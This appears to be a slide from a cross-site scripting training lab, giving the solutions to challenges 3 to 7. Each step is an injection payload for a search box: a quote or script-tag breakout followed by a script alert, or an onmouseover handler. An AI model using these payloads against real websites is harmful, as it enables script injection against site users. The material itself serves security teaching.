

Challenge 3
Enter payload “><script>alert(document.URL)</script> in the search box and press enter.
The alert will trigger.
Challenge 4
Enter payload ‘><script>alert(document.URL)</script> in the search box and press enter.
The alert will trigger.
Challenge 5
Enter payload ";</script><script>alert(document.URL)</script> in the search box and press enter.
The alert will trigger.
Challenge 6
Enter payload ‘;</script><script>alert(document.URL)</script> in the search box and press enter.
The alert will trigger.
Challenge 7
Enter payload ‘onmouseover=’alert(document.URL); in the search box and press enter.
Hover the mouse on search box and the alert will trigger.